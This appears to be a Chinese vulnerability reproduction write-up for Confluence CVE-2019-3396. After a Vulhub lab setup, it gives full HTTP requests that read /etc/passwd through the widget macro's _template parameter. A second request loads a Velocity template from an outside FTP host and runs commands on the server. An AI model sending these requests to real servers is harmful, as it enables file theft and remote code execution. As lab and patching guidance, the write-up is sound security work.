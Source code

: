 # Confluence 未授权导致RCE漏洞(CVE-2019-3396) 

## 漏洞描述

*漏洞介绍*

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

*影响版本*

6.6.12之前所有6.6.x版本，6.12.3之前所有6.12.x版本，6.13.13之前所有6.13.x版本，6.14.2之前所有6.14.x版本。

## 搭建漏洞环境


利用[Vulhub](https://github.com/vulhub/vulhub)里的`confluence/CVE-2019-3396`的weblogic版本作为漏洞环境，启动命令为：
```
docker-compose up -d
```
等待一段时间，访问`http://8090:7001/`安装引导，选择“Trial installation”，之后会要求填写license key。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的测试证书（不要选择Data Center和Addons）：

![](./img/1.png)

然后点击Next安装即可。

如果提示填写cluster node，路径填写`/home/confluence`即可。然后填入数据库账号密码，选择`postgres`数据库，地址为db，账号密码均为`postgres`：

![](./img/2.png)

搭建完成。


## 漏洞复现

### 0x01 文件读取

发送数据包

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.10.128:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent:Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer:http://192.168.10.128:8090/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type:application/json; charset=utf-8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh-HK;q=0.6,zh-TW;q=0.5
Cookie: JSESSIONID=C06C1362ADBA16FF4BCBD5069A1461A6
Connection: close
Content-Length: 178


{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```

![](./img/3.png)

去访问发现成功读取`/etc/passwd`信息


### 0x02 RCE

是通过模板注入（SSTI）来执行任意命令，我们首先要先将[cmd.vm](https://github.com/zhengjim/loophole/tree/master/CVE-2019-3396/cmd.vm)上传至我们的FTP服务器上。

![](./img/4.png)

然后发送数据包：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.10.128:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent:Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer:http://192.168.10.128:8090/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type:application/json; charset=utf-8
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7,zh-HK;q=0.6,zh-TW;q=0.5
Cookie: JSESSIONID=C06C1362ADBA16FF4BCBD5069A1461A6
Connection: close
Content-Length: 222


{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"ftp://xx.xxx.xxx.xx/cmd.vm","cmd":"ifconfig"}}}
```

![](./img/5.png)

复现成功

## 漏洞修复

官方已修复该漏洞，请升级到无漏洞版：https://www.atlassian.com/

## 参考文献

1. https://github.com/Yt1g3r/CVE-2019-3396_EXP
2. https://www.freebuf.com/column/200320.html
3. https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396
